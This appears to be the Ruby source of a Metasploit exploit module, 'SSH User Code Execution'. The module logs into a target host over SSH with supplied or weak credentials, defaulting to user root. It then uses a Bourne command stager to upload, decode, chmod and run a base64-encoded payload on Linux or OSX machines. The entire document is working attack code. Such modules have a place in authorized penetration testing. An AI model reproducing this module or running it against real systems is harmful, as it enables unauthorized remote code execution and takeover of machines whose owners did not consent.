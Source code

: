 require 'msf/core'
require 'net/ssh'
 
class Metasploit3 < Msf::Exploit::Remote
  Rank = ManualRanking
 
  include Msf::Exploit::CmdStagerBourne
 
  attr_accessor :ssh_socket
 
  def initialize
    super(
      'Name'        => 'SSH User Code Execution',
      'Description' => %q{
        This module utilizes a stager to upload a base64 encoded
        binary which is then decoded, chmod'ed and executed from
        the command shell.
      },
      'Author'      => ['Spencer McIntyre', 'Brandon Knight'],
      'References'  =>
        [
          [ 'CVE', '1999-0502'] # Weak password
        ],
      'License'     => MSF_LICENSE,
      'Privileged'  => true,
      'DefaultOptions' =>
        {
          'PrependFork' => 'true',
          'EXITFUNC' => 'process'
        },
      'Payload'     =>
        {
          'Space'    => 4096,
          'BadChars' => "",
          'DisableNops' => true
        },
      'Platform'    => [ 'osx', 'linux' ],
      'Targets'     =>
        [
          [ 'Linux x86',
            {
              'Arch' => ARCH_X86,
              'Platform' => 'linux'
            },
          ],
          [ 'Linux x64',
            {
              'Arch' => ARCH_X86_64,
              'Platform' => 'linux'
            },
          ],
          [ 'OSX x86',
            {
              'Arch' => ARCH_X86,
              'Platform' => 'osx'
            },
          ],
        ],
      'DefaultTarget'  => 0,
      # For the CVE
      'DisclosureDate' => 'Jan 01 1999'
    )
 
    register_options(
      [
        OptString.new('USERNAME', [ true, "The user to authenticate as.", 'root' ]),
        OptString.new('PASSWORD', [ true, "The password to authenticate with.", '' ]),
        OptString.new('RHOST', [ true, "The target address" ]),
        Opt::RPORT(22)
      ], self.class
    )
 
    register_advanced_options(
      [
        OptBool.new('SSH_DEBUG', [ false, 'Enable SSH debugging output (Extreme verbosity!)', false])
      ]
    )
  end
 
  def execute_command(cmd, opts = {})
    begin
      Timeout.timeout(3) do
        self.ssh_socket.exec!("#{cmd}\n")
      end
    rescue ::Exception
    end
  end
 
  def do_login(ip, user, pass, port)
    opt_hash = {
      :auth_methods  => ['password', 'keyboard-interactive'],
      :msframework   => framework,
      :msfmodule     => self,
      :port          => port,
      :disable_agent => true,
      :password      => pass
    }
 
    opt_hash.merge!(:verbose => :debug) if datastore['SSH_DEBUG']
 
    begin
      self.ssh_socket = Net::SSH.start(ip, user, opt_hash)
    rescue Rex::ConnectionError, Rex::AddressInUse
      fail_with(Exploit::Failure::Unreachable, 'Disconnected during negotiation')
    rescue Net::SSH::Disconnect, ::EOFError
      fail_with(Exploit::Failure::Disconnected, 'Timed out during negotiation')
    rescue Net::SSH::AuthenticationFailed
      fail_with(Exploit::Failure::NoAccess, 'Failed authentication')
    rescue Net::SSH::Exception => e
      fail_with(Exploit::Failure::Unknown, "SSH Error: #{e.class} : #{e.message}")
    end
 
    if not self.ssh_socket
      fail_with(Exploit::Failure::Unknown)
    end
    return
  end
 
  def exploit
    do_login(datastore['RHOST'], datastore['USERNAME'], datastore['PASSWORD'], datastore['RPORT'])
 
    print_status("#{datastore['RHOST']}:#{datastore['RPORT']} - Sending Bourne stager...")
    execute_cmdstager({:linemax => 500})
  end
end
